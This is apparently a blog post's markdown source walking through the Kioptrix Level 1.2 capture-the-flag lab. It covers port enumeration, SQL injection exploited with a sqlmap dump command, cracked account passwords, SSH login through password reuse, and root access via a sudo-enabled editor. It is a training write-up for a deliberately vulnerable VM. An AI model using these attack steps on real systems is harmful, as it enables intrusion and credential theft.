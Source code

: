 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.2 Walkthrough"
date:   2023-12-20 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1.2 Walkthrough, CTF solution for Kioptrix Level 1.2.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.7p1 Debian 8ubuntu1.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

Enumeration of the website discovered it was likely vulnerable to an [SQL Injection](/penetration-testing/web-app/sql-injection/), entering <code>id='</code> rendered the following MySQL error:

![SQL Error](/img/blog/kioptrix/sql-error.png)


SQLMap was used to successfully dump the databases and crack the hashes:

{% highlight bash %}

[root:~]# sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+

{% endhighlight %}

## Non privileged shell

Due to password reuse both accounts were able to ssh, dreg had a limited shell.

## Local Enumeration

Local enumeration of loneferrets home dir disclosed:

{% highlight bash %}
loneferret@Kioptrix3:~$ cat CompanyPolicy.README
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
{% endhighlight %}

## Privilege Escalation

<code>sudo ht</code> rendered a file explorer, the user <code>loneferret</code> was added to the sudoers group, making privilege escalation trivial.  

![sudo ht](/img/blog/kioptrix/sudo-ht.png)

{% highlight bash %}

loneferret@Kioptrix3:~$ sudo -s
root@Kioptrix3:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:~#

{% endhighlight %}
